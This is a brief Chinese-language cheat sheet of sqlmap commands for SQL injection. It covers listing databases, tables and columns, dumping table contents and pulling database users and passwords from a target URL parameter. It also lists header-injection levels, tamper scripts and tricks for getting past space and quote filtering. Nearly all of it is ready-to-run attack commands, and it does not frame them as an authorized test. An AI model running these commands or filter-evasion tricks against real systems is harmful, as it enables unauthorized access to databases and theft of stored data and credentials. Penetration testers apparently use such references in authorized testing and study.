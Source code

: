 查询当前用户下的所有数据库 sqlmap.py -u url/?id=1 --dbs 

获取数据库的表名 sqlmap.py -u url/?id=1 -D (数据库名) --tables 

获取表中的字段名 sqlmap.py -u url/?id=1 -D (数据库名) -T (输入需要查询的表名) --columns 

获取字段的内容 sqlmap.py -u url/?id=1 -D (数据库名) -T (输入需要查询的表名) -C (表内的字段名) --dump 

查询数据库的所有用户 sqlmap.py -u url/?id=1 --users 

查询数据库的所有密码 sqlmap.py -u url/?id=1 --passwords 

查询数据库名称 sqlmap.py -u url/?id=1 --current-db











### **sqlmap**

------

—cookie  –level 2

—ua lever 3

sqlmap可以在请求中伪HTTP的Referer头，当--level参数大于等于3时，会尝试进行refer注入

–referer  level 5

有的时候扫不出注入点，也是需要提升 level 等级



脚本名： space2comment.py  作用：用注释/**/替换空格字符' '

 sqlmap 中的 tamper 脚本有很多，例如： equaltolike.py （作用是用like代替等号）、 apostrophemask.py （作用是用utf8代替引号）、 greatest.py （作用是绕过过滤'>' ,用GREATEST替换大于号）等。



绕过空格过滤的方法   /**/、()、%0a





**sqlmap常用语法**


-u 指定一个url连接，url中必须有？xx=xx 才行

-l 后接一个log文件，可以是burp等的代理的log文件

-m 后接一个txt文件，文件中是多个url，sqlmap会自动化的检测其中的所有url

-r 可以将一个post请求方式的数据包保存在一个txt中，sqlmap会通过post方式检测目标

--method=METHOD 指定是get方法还是post方法

--data=DATA 指明参数是哪些

--cookie=COOKIE 指定测试时使用的cookie
